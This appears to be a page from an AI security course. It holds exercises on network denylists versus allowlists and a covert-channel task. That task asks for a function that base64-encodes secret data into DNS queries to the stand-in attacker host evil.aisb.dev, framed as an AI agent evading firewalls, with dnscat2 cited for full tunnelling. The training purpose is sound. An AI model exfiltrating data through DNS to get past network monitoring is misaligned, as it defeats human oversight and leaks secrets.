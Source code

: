 
#### Exercise 7.2 - Denylists vs Allowlists

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~10 minutes on this exercise.

<details><summary>So far, you've been using a denylist - listing IPs or domains that should be blocked. Think about the implications of this, and what switching to an allowlist might look like.</summary></details>


## 5️⃣ Covert Channels and Advanced Evasion

### Exercise 8: I don't need TCP

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪
>
> You should spend up to ~10 minutes on this exercise.


The previous exercise blocked our TCP connections. However, we can use UDP instead of TCP to exfiltrate data.
In practice, we can use the DNS protocol to hide our data in DNS requests, which are typically allowed through firewalls and not inspected by proxies.

We will be making simple static requests and getting static responses, but tools like (dnscat2)[https://www.kali.org/tools/dnscat2/] let you create a full-duplex communication channel over DNS, allowing you to send and receive arbitrary data.

Implement the `make_evil_request_dns` function that sends a DNS request to fetch TXT records from evil.aisb.dev

The code below belongs in the **`w1d2_answers_agent.py` file**.


```python

import dns.resolver as dns_resolver  # Alias to avoid conflict with mitmproxy.dns

resolver = dns_resolver.Resolver()
resolver.nameservers = ["8.8.8.8", "1.1.1.1", "127.0.0.1"]


def make_evil_request_dns(secret_data: str) -> Optional[str]:
    """
    Send a DNS request to evil.aisb.dev to exfiltrate secret data.

    This simulates an AI agent attempting to communicate using DNS queries.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the DNS query, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Construct a domain like secret_data.evil.aisb.dev (remember to encode secret_data with base64.urlsafe_b64encode)
    #   2. Perform a DNS query for TXT records using resolver.resolve
    #   3. Return the first TXT record found, or None if no records are found
    pass
from w1d2_test import test_make_evil_request_dns
test_make_evil_request_dns(make_evil_request_dns, resolver)

# Set the exfiltration function for use in the exercise
```